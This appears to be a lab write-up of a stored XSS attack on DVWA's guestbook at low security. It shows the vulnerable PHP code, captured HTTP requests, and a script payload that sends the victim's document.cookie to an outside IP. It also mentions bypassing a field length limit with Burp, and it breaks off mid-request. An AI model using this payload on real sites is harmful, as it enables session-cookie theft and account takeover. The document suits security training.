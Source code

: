 
# XSS: security: low
```php
<?php

if(isset($_POST['btnSign']))
{

   $message = trim($_POST['mtxMessage']);
   $name    = trim($_POST['txtName']);
   
   // Sanitize message input
   $message = stripslashes($message);
   $message = mysql_real_escape_string($message);
   
   // Sanitize name input
   $name = mysql_real_escape_string($name);
  
   $query = "INSERT INTO guestbook (comment,name) VALUES ('$message','$name');";
   
   $result = mysql_query($query) or die('<pre>' . mysql_error() . '</pre>' );
   
}

?>
```
## sample request
```
POST /dvwa/vulnerabilities/xss_s/ HTTP/1.1
Host: meta
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 53
Origin: http://meta
Connection: close
Referer: http://meta/dvwa/vulnerabilities/xss_s/
Cookie: security=low; PHPSESSID=ae2efb5757e6d8b6d9c1931b610819e5
Upgrade-Insecure-Requests: 1

txtName=test2&mtxMessage=test2&btnSign=Sign+Guestbook
```
## XSS Request: payload (url-encoded) in the txtMessage parameter (the txtName parameter was also vulnerable)
```html
<script>new Image().src="http://20.20.20.129/cool.jpg?output="+document.cookie;</script>
```
## Note: the comment field had a character limit where we couldn't insert the entire payload. That's why we used `burp` for that
```
POST /dvwa/vulnerabilities/xss_s/ HTTP/1.1
Host: meta
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
```